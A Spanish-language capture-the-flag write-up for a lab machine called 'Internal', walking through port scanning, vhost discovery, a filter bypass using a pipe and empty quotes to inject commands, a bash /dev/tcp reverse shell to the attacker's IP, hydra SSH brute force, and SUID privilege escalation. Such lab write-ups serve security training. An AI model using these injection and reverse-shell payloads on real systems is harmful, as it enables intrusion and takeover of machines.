








# Internal - Writeup

## Resumen
En esta máquina nos enfrentaremos a un WAF el cuál trataremos de pasar los filtros en base a una hipotesis, usaremos fuerza bruta para entrar a usuarios y escalaremos privilegios.

## Paso N1: Reconocimiento
Empezamos escaneando los puertos TCP de la máquina con sus respectivos servicios y versiones
```
nmap 172.17.0.2 -sS -sVC -n -Pn -p- --open -oG open_ports
```


Vemos que están los puertos 22 y 80 correspondientes a ssh y http.

## Paso N1.2: Accediendo a la página (opcional)
Al acceder a ```172.17.0.2``` vemos que el servidor no muestra el contenido esperado, por lo que agregamos el dominio al ```/etc/hosts``` de esta forma: ```172.17.0.2 internal.dl```. 
Dentro de la página, veremos que no hay información relevante, por lo que pasaremos al siguiente paso.

## Paso N2: Busqueda de hosts
Como en la página inicial no encontramos información relevante, pasaremos a buscar hosts con gobuster de la siguiente forma:
```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://internal.dl/ --append-domain | grep 'Status: 200'
```
Usamos ```grep``` para filtrar especificamente por los dominios que devuelvan status 200, de lo contrario en este caso se mostraran todos los dominios


vemos que el ```backup.internal.dl``` devuelve status 200. 
Al entrar, veremos que el servidor no devuelve contenido nuevamente, por lo que lo agregamos a ```/etc/hosts``` ```172.17.0.2 backup.internal.dl```

## Paso N3: Entendiendo el WAF
Al entrar a la página, veremos que hay una consola, la cual solo nos permite ejecutar 5 comandos ya preestablecidos y abajo veremos una consola con el output


El WAF podemos entenderlo como una validación, el servidor valida el input que le damos, en caso de que pase los filtros, nos devolvera su respectivo output, en caso de que no pase los filtros nos dará un error, por lo que tenemos que buscar como saltarnos estos filtros para ejecutar nuestros propios comandos.

En este caso, la mánera de romperlo, será usando uno de los 5 comando preestablecidos, seguido de un pipe ```|``` y el comando separado por comillas vacias, algo así:
```
/var/backups | who''ami
```
Esto funciona de la siguiente manera:

   1. El WAF probablemente valida el input verificando si coincide con uno de los 5 comandos permitidos. Es probable que al anteponer /var/backups (comando válido), la validación pasa sin inspeccionar lo que sigue tras el pipe ```|```. La shell, en cambio, sí interpreta el pipe y ejecuta ambos comandos en secuencia.
     
   2. Separamos el comando con comillas vacías ```''``` ya que de esta manera el WAF lo valida como texto crudo, mientras que la shell concatena el texto interpretando el comando completo.
     
Si nos saltamos una de las dos condiciones, el WAF no lo validará.

## Paso N4: Ejecutando una reverse shell
Una vez entendido los filtros de WAF, podemos ejecutar una reverse shell escuchando en nuestra terminal con ```nc -lvnp 443``` y ejecutando en la terminal de la página
```
/var/log | bas''h -c 'bas''h -i >& /dev/tcp/172.17.0.1/443 0>&1'
```
tendremos acceso a la shell de la página.


## Paso N5: Buscando credenciales
En el directorio ```/opt``` hay un archivo oculto llamado ```.vault_pass.txt``` y dentro tiene lo que parecer ser una wordlist


nos copiaremos las contraseñas de la wordlist a nuestra máquina local y las guardaré en un archivo llamado ```vaultpasswd```

## Paso N6: Accediendo al usuario vault
Usamos hydra para hacer fuerza bruta al usuario ```vault``` con la wordlist que acabamos de crear
```
hydra -l vault -P vaultpasswd ssh://172.17.0.2/
```


vemos que la contraseña es ```Yk8$pZ5@cN4!```, por lo que accedemos al ssh con el usuario vault ```ssh vault@172.17.0.2```

## Paso N7: Escalando privilegios
Una vez ya dentro del usuario ```vault``` buscamos Binarios SUID con ```find / -perm -4000 2>/dev/null```


y encontramos ```/usr/local/bin/vaultctl```, el cual lo ejecutamos en la shell y pasaremos a ser usuarios root

